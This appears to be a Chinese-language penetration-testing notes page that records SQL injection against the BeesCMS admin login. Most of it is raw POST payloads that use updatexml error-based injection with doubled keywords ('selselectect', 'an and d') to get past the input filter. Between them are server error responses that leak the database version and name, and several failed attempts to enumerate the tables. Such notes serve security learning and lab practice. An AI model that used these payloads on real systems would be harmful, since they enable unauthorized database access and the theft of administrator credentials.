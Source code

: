 ### 得到了版本号

user=admin' an and d updatexml(1,concat(0x7e,(selselectect version())),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

user=-1' u union nion seselectlect 1,2,3,4,5 #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

输入的密码不正确

and和union都可以双写加空格绕过

user=admin' an and d updatexml(1,concat(0x7e,(seselectlect database())),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败XPATH syntax error: '~beescms'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select database())),1) #' limit 0,1</

### 当前数据库名称为beescms

user=admin' an and d updatexml(1,concat(0x7e,(selselectect table_name fron information_schema.tables where table_schema=database())),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'information_schema.tablestable_schemadatabase())),1) #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select table_name fron information_schema.tablestable_schemadatabase())),1) #' limit 0,1

user=admin' an and d updatexml(1,concat(0x7e,(selselectect table_name fron information_schema.tables whe where re table_schema=database())),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'information_schema.tables where table_schemadatabase())),1) #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select table_name fron information_schema.tables where table_schemadatabase())),1) #' limit 0,1<

user=admin' an and d updatexml(1,concat(0x7e,(selselectect table_name fron information_schema.tables whe where re table_schema like database())),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'information_schema.tables where table_schema like database())),1) #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select table_name fron information_schema.tables where table_schema like database())),1) #' limit 0,1

user=admin' an and d updatexml(1,concat(0x7e,(selselectect table_name from information_schema.tables whe where re table_schema like database())),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'where table_schema like database())),1) #' limit 0,1' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select table_nameinformation_schema.tables where table_schema like database())),1) #' limit 0,1
